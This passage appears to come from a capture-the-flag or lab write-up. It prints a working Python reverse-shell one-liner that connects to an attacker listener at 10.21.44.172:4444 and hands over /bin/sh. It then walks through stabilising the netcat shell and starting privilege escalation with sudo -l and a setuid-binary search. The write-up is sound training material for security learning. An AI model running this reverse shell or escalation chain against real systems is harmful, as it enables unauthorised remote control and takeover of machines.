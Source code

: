 ```
import socket, os; s=socket.socket(socket.AF_INET, socket.SOCK_STREAM); s.connect(("10.21.44.172", 4444)); os.dup2(s.fileno(), 0); os.dup2(s.fileno(), 1); os.dup2(s.fileno(), 2); os.system('/bin/sh')
```

Execute the Reverse Shell Code: Run the above code in your current Python environment. This will initiate a connection to your Netcat listener.

## Reverse Shell

Bingo, we got shell connection! By the way, always make sure you look at the ip
and make sure you got it typed down right. The amount of time this could have
saved me! Before doing any of the next steps, stabilize your shell! 

Here is how to do it based on the following [webpage]: (https://www.inkyvoxel.com/how-to-stabilise-netcat-shells-using-python/)

* Check if Python is installed. You can do this by running python --version. You may need to use python, python2, or python3 depending on how the system is set up.

* Inside the remote shell, run python -c 'import pty; pty.spawn("/bin/bash")'. This spawns a more feature-rich Bash shell.

* Run export TERM=xterm to set the xterm terminal emulator.

* Press Ctrl + Z to 'background' the netcat shell. This will return you to the terminal on the attacking computer.

* Run stty raw -echo. This does two things: raw changes how your keyboard input is processed, allowing Ctrl + C, cursor key movements, TAB, autocomplete, etc. to be passed through to the netcat shell; and -echo disables the echo in your terminal as you type, making the netcat shell behave more like a normal terminal.

* Run fg to return the netcat shell to the 'foreground'.

And that's that!

Now let's see what we have on our system!

## Privesc

### 1. Check Sudo Privileges

First, check if the www-data user has any sudo privileges that allow you to execute commands as root:

```
sudo -l
```

If you see entries like NOPASSWD, it means you can run specific commands without being prompted for a password, which could lead to privilege escalation.

In our case, we don't have the sudo privileges :(

### 3. Search for Setuid Binaries
